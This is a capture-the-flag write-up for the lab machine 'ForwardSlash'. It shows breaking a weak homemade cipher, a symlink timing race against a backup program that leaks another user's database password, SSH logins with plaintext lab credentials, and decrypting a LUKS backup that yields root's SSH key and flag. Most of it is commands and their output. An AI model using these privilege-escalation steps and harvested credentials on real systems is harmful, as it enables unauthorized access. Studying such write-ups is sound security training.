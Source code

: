 #### 4.1. Encryption tool

1) Location

```
chiv@forwardslash:/home/pain/encryptorinator$ cat encrypter.py
```

2) Code for the `encrypter.py` script

```python
def encrypt(key, msg):
    key = list(key)
    msg = list(msg)
    for char_key in key:
        for i in range(len(msg)):
            if i == 0:
                tmp = ord(msg[i]) + ord(char_key) + ord(msg[-1])
            else:
                tmp = ord(msg[i]) + ord(char_key) + ord(msg[i-1])

            while tmp > 255:
                tmp -= 256
            msg[i] = chr(tmp)
    return ''.join(msg)

def decrypt(key, msg):
    key = list(key)
    msg = list(msg)
    for char_key in reversed(key):
        for i in reversed(range(len(msg))):
            if i == 0:
                tmp = ord(msg[i]) - (ord(char_key) + ord(msg[-1]))
            else:
                tmp = ord(msg[i]) - (ord(char_key) + ord(msg[i-1]))
            while tmp < 0:
                tmp += 256
            msg[i] = chr(tmp)
    return ''.join(msg)


print encrypt('REDACTED', 'REDACTED')
print decrypt('REDACTED', encrypt('REDACTED', 'REDACTED'))
```


#### 4.2. Testing the encryption tool

1) Found the encrypted file

```
chiv@forwardslash:/home/pain/encryptorinator$ cat ciphertext | base64 -w0 && echo
y9ejmxqULEz2Cj4FvDJY1aILig18ij8ASccp8UWDLZfLklwvO8PHsnnGW3cjTZIV9zLKG9F+kOdZEkAntue8mIqF5rOjLAWI69v0UJm6QAQ1hsBmJPlcKgFyondGf7qSM7hn71i/fclpNvC0i/R+30uLqVnwxY6lkf8nGCWBv2XgHz7grnjdb+QfK2fcGS+xS6wGPv9e3ctWpfcd4ghOsGuKv2UK
```

2) Testing the `encrypt` function

```
t  e  s  t
19 af 53 f8 0a // encrypt('1', 'test')
1a b1 56 fc 0a // encrypt('2', 'test')
1b b3 59 00 0a // encrypt('3', 'test')
1c b5 5c 04 0a // encrypt('4', 'test')
```

#### 4.3. Breaking the crypto - manual

1) Make a local copy

```
# sshpass -p"N0bodyL1kesBack/" scp chiv@10.10.10.183:/home/pain/encryptorinator/ciphertext /tmp/ciphertext
# base64 -w0 /tmp/ciphertext
y9ejmxqULEz2Cj4FvDJY1aILig18ij8ASccp8UWDLZfLklwvO8PHsnnGW3cjTZIV9zLKG9F+kOdZEkAntue8mIqF5rOjLAWI69v0UJm6QAQ1hsBmJPlcKgFyondGf7qSM7hn71i/fclpNvC0i/R+30uLqVnwxY6lkf8nGCWBv2XgHz7grnjdb+QfK2fcGS+xS6wGPv9e3ctWpfcd4ghOsGuKv2UK
```

2) Modify `encrypter.py`

```
key='SECUREKEY'
msg='this is the end of the world as we all know it'
print(base64.b64encode(encrypt(key, msg)))
```

3) Run

```
u7L9szWFSKUfL8KR0xT+Vqb9kTmaf+QW5k4HZiCT9gnfFfXkGflF1vNfGRdQOw==
```

4) Modify `encrypter.py`

```
c='u7L9szWFSKUfL8KR0xT+Vqb9kTmaf+QW5k4HZiCT9gnfFfXkGflF1vNfGRdQOw=='
print(decrypt(sys.argv[1], base64.b64decode(c)))
```

5) It is enough to find the correct key len and the first correct character of the key in order to decrypt most of the message
```
# python encrypter.py 'S'`python -c "print('1'* 8)"` | strings
LLhe end of the world as we all know it
```

#### 4.3. Breaking the crypto - automated approach

1) Modify `encrypter.py`

```
c='y9ejmxqULEz2Cj4FvDJY1aILig18ij8ASccp8UWDLZfLklwvO8PHsnnGW3cjTZIV9zLKG9F+kOdZEkAntue8mIqF5rOjLAWI69v0UJm6QAQ1hsBmJPlcKgFyondGf7qSM7hn71i/fclpNvC0i/R+30uLqVnwxY6lkf8nGCWBv2XgHz7grnjdb+QfK2fcGS+xS6wGPv9e3ctWpfcd4ghOsGuKv2UK'
print(decrypt(sys.argv[1], base64.b64decode(c)))
```

2) Guessing the correct key len and the first character

```
# for k in `seq 1 50`; do for i in `mp64 ?a`; do echo -n "$k - $i ==> "; python encrypter.py $i`python -c "print('A'* $k)"` | strings; done | grep '==>'; done | more
...
16 - t ==> you liked my new encryption tool, pretty secure huh, anyway here is the key to the encrypted image from /var/backups/recovery: cB!6%sdH8Lj^@Y*$C2cf
...
```
Note: key will be used for obtaining the `root` flag from encrypted backup


#### 4.4. Privesc to `pain` because it's in `backupoperator` group

1) Enum

```
chiv@forwardslash:~$ ls -la /var/backups/ | grep recovery
drwxrwx---  2 root backupoperator   4096 May 27  2019 recovery
chiv@forwardslash:~$ grep 'backupoperator' /etc/group
backupoperator:x:1002:pain
```

2) Source-code disclosure (we obtain `pain` password)

```
chiv@forwardslash:/tmp$ mkdir LOL && chown -R chiv:chiv /tmp/LOL && cd /tmp/LOL
chiv@forwardslash:/tmp/LOL$ ls -la /var/backups/config.php.bak
-rw------- 1 pain pain 526 Jun 21  2019 /var/backups/config.php.bak
chiv@forwardslash:/tmp/LOL$ f=`date | awk '{print $4}' | tr -d '\n' | md5sum | awk '{print $1}'`; ln -s /var/backups/config.php.bak /tmp/LOL/$f; /usr/bin/backup

----------------------------------------------------------------------
	Pain's Next-Gen Time Based Backup Viewer
	v0.1
	NOTE: not reading the right file yet,
	only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 18:18:29
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
define('DB_NAME', 'site');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

3) Local access via `su`

```
chiv@forwardslash:/tmp/LOL$ su pain
Password: db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704
pain@forwardslash:/tmp/LOL$ ls -la /var/backups/recovery
total 976576
drwxrwx--- 2 root backupoperator       4096 May 27  2019 .
drwxr-xr-x 3 root root                 4096 May  9 06:25 ..
-rw-r----- 1 root backupoperator 1000000000 May  9 11:28 encrypted_backup.img
```

4) SSH access

```
# sshpass -p"db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704" ssh pain@10.10.10.183
```

#### 4.5. Root flag

1) Grab the backup (takes a while to download)

```
# sshpass -p"db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704" scp pain@10.10.10.183:/var/backups/recovery/encrypted_backup.img /tmp/
```

2) Backup is encrypted

```
pain@forwardslash:/var/backups/recovery$ file encrypted_backup.img
encrypted_backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: f2a0906a-c412-48db-8c18-3b72443c1bdf
```

3) Mount the backup locally using the password form bad crypto: `cB!6%sdH8Lj^@Y*$C2cf`

```
# cryptsetup open --type luks /tmp/encrypted_backup.img encrypted_backup
# mount /dev/mapper/encrypted_backup /mnt
# ls -la /mnt
total 8.0K
drwxr-xr-x  2 root   20 Mar 17 16:07 ./
drwxr-xr-x 18 root 4.0K Apr 26 11:47 ../
-rw-r--r--  1 root 1.7K May 27  2019 id_rsa
# ssh -i /mnt/id_rsa root@10.10.10.183
root@forwardslash:~# cat root.txt
0007c9e7025297fcd4d3b78d46b5de12
```
